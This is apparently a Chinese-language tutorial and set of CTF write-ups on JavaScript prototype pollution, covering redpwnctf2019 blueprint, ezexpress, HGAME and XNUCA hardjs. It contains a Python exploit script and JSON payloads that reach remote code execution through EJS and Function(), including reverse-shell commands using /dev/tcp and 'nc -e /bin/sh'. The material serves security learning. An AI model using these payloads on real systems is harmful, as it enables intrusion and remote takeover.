






# JavaScript原型链污染

## 如何继承

比如，现在有一个”动物”对象的构造函数。

```javascript
function Animal(){

this.species = "动物";

}
```

还有一个”猫”对象的构造函数。

```javascript
function Cat(name,color){

　　　　this.name = name;

　　　　this.color = color;

　　}
```

要让`Cat`这个类去继承`Animal`类，如果在其他的语言中，一般就是`extented`即可

但是在JavaScript中，

```javascript
Cat.prototype = new Animal();

Cat.prototype.constructor = Cat;

var cat1 = new Cat("大毛","黄色");

alert(cat1.species); // 动物
```

第一行我们直接修改了`Cat`的`prototype`属性，让其指向`Animal`

这一点不难理解，之后所有`Cat`实例化的对象cat，它的`__proto__`就会指向`Animal`(因为`Cat.prototype==cat.__proto__`)

但是第二行比较疑惑，`Cat.prototype.constructor`又代表了什么？

其实在`Cat.prototype`中原先是有一个`constructor`这个属性的，而`Cat.prototype.constructor==Cat`这个是成立的

但是我们直接修改了`Cat.prototype`之后，此时的`Cat.prototyep.constructot != Cat`

这就比较荒诞了，所以我们要单独修改将这一个属性修改回来

## 实例分析

### redpwnctf2019 blueprint

题目的简要功能就是能够发表文章，并且选择是否公开，传递的数据是json格式的

每一个用户有一个`user_id`，第一次访问的时候会通过`makeId`函数给一个id



调试的时候发现每个用户创建的时候会将一个`(userId,user)`存入到一个map中，`userId`就是之前生成的，而这个`user`对象中就有flag，也就是说每一个用户都有一个flag

生成的`user`对象



之后会将请求的内容给`merge`到`parsedBody`中

查看`defaultsDeep`的例子：

```
_.defaultsDeep({ 'user': { 'name': 'barney' } }, { 'user': { 'name': 'fred', 'age': 36 } });
// => { 'user': { 'name': 'barney', 'age': 36 } }
```

之后就会将`parsedBody`中的`content`和`public`存放到map中



之后的功能也不难想了，如果`pubic`为true就会展示在首页上，如果不为true就会不会展示

而我们之前提到每一个用户其实都是有一个flag的，只是这个`public`属性没有进行设置而已。

思路就是通过原型链污染使得flag能被展示出来

渲染页面的主要部分如下：

```javascript
blueprints: Object.entries(user.blueprints).map(([k, v]) => ({
  id: k,
  content: v.content,
  public: v.public,
})),
```

exp

```python
import requests

URL = "http://localhost/"
user_id = "559eb9b06eb8c581b74f33c1202bff50"
res = requests.post(URL+"make",cookies={"user_id":user_id},json={"content":"aaaa", "public":"true","constructor":{"prototype":{"public":"true"}}})
print(res.text)

res2 = requests.get(URL, cookies={"user_id":user_id})
print(res2.text)
```

### 新春战疫 ezexpress

用到了JavaScript的一个小trick

两个奇特的字符 ==”ı”、”ſ”。==

这两个字符的“大写”是I和S。也就是说”ı”.toUpperCase() == ‘I’，”ſ”.toUpperCase() == ‘S’。通过这个小特性可以绕过一些限制。

绕过之后，就可以登陆,看到一个很显然的 `clone` 操作

```js
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
```

那么就可以污染属性了。污染哪个呢？

```js
router.get('/', function (req, res) {
  if(!req.session.user){
    res.redirect('/login');
  }
  res.outputFunctionName=undefined;
  res.render('index',data={'user':req.session.user.user});
});

router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```

我们这里就直接污染 `res.outputFunctionName`

(测试的时候Windows下无法用nc弹shell)



然后访问 info 页面即可

原来的payload

```json
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"');var __tmp2"}}
```

### HGAME

这题也是JavaScript原型链污染，不过这里更明显

```js
if (sekiro.attackInfo.additionalEffect) {
	var fn = Function("sekiro", sekiro.attackInfo.additionalEffect + "\nreturn sekiro")
	sekiro = fn(sekiro)
}
```

`Function` 是动态构造函数

payload

```json
{"solution":"1","__proto__":{"additionalEffect":"global.process.mainModule.constructor._load('child_process').exec('nc vps-ip port -e /bin/sh',function(){});"}}
```



然后vps上即可监听到请求(当然我这里只是nc一下)

写到这里突然又想起来了 2019XNUCA的一道JavaScript原型链污染的题目

### 2019 XNUCA hardjs

(盗了一张图过来)

能够RCE的点出在 `res.render` 处，具体的就不分析了，这里是最后的变量拼接的地方



从这里可以看到有两个拼接的变量可以使用

于是就能够构造两个payload

```json
{"type":"wiki","content":{"constructor": {"prototype": {"client": true,"escapeFunction": "1; return process.env.FLAG","debug":true, "compileDebug": true}}}}
```

或者

```json
 {
    "content": {
        "constructor": {
            "prototype": {
            "outputFunctionName":"_tmp1;return process.env.FLAG;//;var __tmp2"
            }
        }
    },
    "type": "test"
}
```

当然要是想弹shell也不是不可以

```json
{
    "content": {
        "constructor": {
            "prototype": {
            "outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/xx 0>&1\"');var __tmp2"
            }
        }
    },
    "type": "test"
}
```

现在回顾起当时遇到这道题还啥都不会，现在又突然想起来的这种感觉好好玩

## 参考

[https://xz.aliyun.com/t/6101#toc-1](https://xz.aliyun.com/t/6101#toc-1)

[http://passingfoam.com/2019/08/31/XNUCA-2019-web-%E5%A4%8D%E7%8E%B0/](http://passingfoam.com/2019/08/31/XNUCA-2019-web-复现/)

[https://xz.aliyun.com/t/6113#toc-5](https://xz.aliyun.com/t/6113#toc-5)
